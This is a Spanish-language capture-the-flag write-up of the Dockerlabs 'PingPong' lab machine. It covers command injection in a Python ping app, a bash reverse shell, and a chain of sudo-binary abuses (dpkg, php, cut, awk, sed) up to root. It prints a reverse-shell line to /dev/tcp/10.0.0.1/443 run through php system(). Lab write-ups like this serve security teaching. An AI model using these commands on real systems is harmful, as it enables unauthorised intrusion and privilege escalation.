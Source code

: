 # PingPong

Máquina vulnerable en modo **medium** de Dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

<br/>

## Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Para identificarla se realizó el uso de `arp-scan` para identificar los dispositivos en nuestra red docker con la interfaz `docker0`

```bash
sudo arp-scan -I docker0 --localnet
Interface: docker0, type: EN10MB, MAC: 02:42:77:20:48:b6, IPv4: 172.17.0.1
Starting arp-scan 1.10.0 with 65536 hosts (https://github.com/royhills/arp-scan)
172.17.0.2	02:42:ac:11:00:02	(Unknown: locally administered)
```

<br/>

## Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **80** abierto (Apache)
- Puerto **443** abierto (Apache)
- Puerto **5000** abierto corriendo una aplicación en Python (Werkzeug).

![Scan1](https://i.imgur.com/racpOYG.png)

<br/>

## Enumeración

Se hizo una revisión de los puertos **80** y **433** en el navegador pero los servidores no suministraron información relevante.

![Scan1](https://i.imgur.com/YS628ZP.png)

El siguiente paso fue buscar directorios y recursos ocultos con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado no arrojó muchos directorios, se inspeccionó el `machine.php` pero tampoco mostró nada relevante.

![Gobuster](https://i.imgur.com/JJOzxTm.png)
![Machine](https://i.imgur.com/yod5G0O.png)

Se pasó al puerto **5000** donde se hayó una aplicación para realizar pings a hosts pasados por medio de un input HTML, al parecer no sanitizado. Debido a esto se realizaron pruebas de **Command injection** para así conseguir obtener información de la máquina.

![Werkzeug1](https://i.imgur.com/37eesfV.png)
![Werkzeug1](https://i.imgur.com/MY85DKb.png)

<br/>

## Explotación

Gracias a que los resultados fueron positivos, se implementó una reverse shell con bash para conectar a la terminal.

![Werkzeug1](https://i.imgur.com/s6zQY5h.png)  
![Werkzeug2](https://i.imgur.com/sW9IsW7.png)

<br/>

## Escalada de privilegios

Después de implementar la reverse shell se analizó el entorno para validar cómo conseguir la escalada de privilegios.

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/PPXa0is.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/dpkg` se puede ejecutar con el usuario `bobby`, lo que sugiere un movimiento lateral. En [GTFObins](https://gtfobins.github.io/gtfobins/dpkg/#sudo) podemos observar cómo ejecutar el dpkg.

Efectuamos ajustes en nuestro términal para evitar errores de list al ejecutar los comandos:

```
- script /dev/null -c bash
- stty raw -echo; fg
	reset xterm
- CTRL + z para pasarla background
- export TERM=xterm
- export SHELL=bash
- stty rows 47 colums 189
```

Al ejecutar los comandos para usar el dpkg:

```bash
sudo -u bobby /usr/bin/dpkg -l
```

![dpkg](https://i.imgur.com/YaJalta.png)
![dpkg](https://i.imgur.com/VKCKnWA.png)

Conseguido el usuario `bobby` Se repite el mismo proceso de comprobación de binarios y obtenemos lo siguiente para usuario `gladys`

![dpkg](https://i.imgur.com/3JNwdWo.png)

Se ejecuta el CMD en php para ejecutar otra reverse shell y conectarnos a `gladys`

`CMD='/bin/bash -c \ 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1\'`
`sudo -u gladys /usr/bin/php -r "system('$CMD');"`

Con esto pasamos al usuario `gladys` nuevamente se vuelve a repetir el proceso de comprobación, siempre utilizando searchbins o GTFObins en este caso el de [cut](https://gtfobins.github.io/gtfobins/cut/#sudo). Al revisar el directorio `/opt/` se encontró una flag que se utilizó para pasar al siguiente usuario `chocolatito`.

![dpkg](https://i.imgur.com/Iuf675b.png)

Obteniendo el usuario de `chocolatito` se vuelve a comprobar y se buscan nuevos binarios, en este caso es [awk](https://gtfobins.github.io/gtfobins/awk/#sudo). Que nos permite pasar al siguiente usuario que es `theboss`

![dpkg](https://i.imgur.com/ZeyEw1O.png)

Utilizando el método de comprobación como las veces anteriores, se descubre que este usuario en particular puede dar vía libre al root por medio de [sed](https://gtfobins.github.io/gtfobins/sed/#sudo).

![dpkg](https://i.imgur.com/ItDzxDz.png)

Y es con esto que después de realizar tantos movimientos laterales, se consigue escalar al root.

_Written by **kur0bai**_
